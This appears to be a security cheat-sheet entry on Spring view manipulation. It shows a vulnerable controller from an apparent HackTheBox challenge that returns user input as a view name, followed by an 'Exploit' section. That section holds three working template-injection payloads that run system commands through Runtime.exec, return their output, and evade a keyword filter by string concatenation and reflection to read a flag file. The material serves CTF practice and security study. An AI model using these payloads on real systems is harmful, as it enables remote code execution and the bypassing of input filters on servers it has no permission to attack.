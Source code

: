 # Content
- [cheat-sheets spring](https://0xn3va.gitbook.io/cheat-sheets/framework/spring)
## Spring view Manipulation
- [source](https://github.com/veracode-research/spring-view-manipulation)
- [EL-Injection-WAF-Bypass](https://pulsesecurity.co.nz/articles/EL-Injection-WAF-Bypass)


if you have a route have return like this it is vuln
```java
package com.hackthebox.breathtaking_view.Controllers;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.servlet.mvc.support.RedirectAttributes;

import javax.servlet.http.HttpSession;

@Controller
public class IndexController {
    @GetMapping("/")
    public String index(@RequestParam(defaultValue = "en") String lang, HttpSession session, RedirectAttributes redirectAttributes) {
        if (session.getAttribute("user") == null) {
            return "redirect:/login";
        }

        if (lang.toLowerCase().contains("java")) {
            redirectAttributes.addFlashAttribute("errorMessage", "Error!");
            return "redirect:/";
        }

        return lang + "/index";
    }
}

```
**Exploit**

```java
// bypass no java, no result
__${T(Runtime).getRuntime().exec("id"})}__::.x

// return the result
__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}__::.x'

// bypass with no java and return the result
__${true.getClass().forName("ja"+"va.util.Scanner").getConstructor(true.getClass().forName("ja"+"va.io.InputStream")).newInstance(true.getClass().forName("ja"+"va.lang.Runtime").getMethods()[6].invoke(true.getClass().forName("ja"+"va.lang.Runtime")).exec("cat /app/flag.txt").getInputStream()).getClass().getMethod("nextLine").invoke(true.getClass().forName("ja"+"va.util.Scanner").getConstructor(true.getClass().forName("ja"+"va.io.InputStream")).newInstance(true.getClass().forName("ja"+"va.lang.Runtime").getMethods()[6].invoke(true.getClass().forName("ja"+"va.lang.Runtime")).exec("cat /app/flag.txt").getInputStream()))}__::.x

```
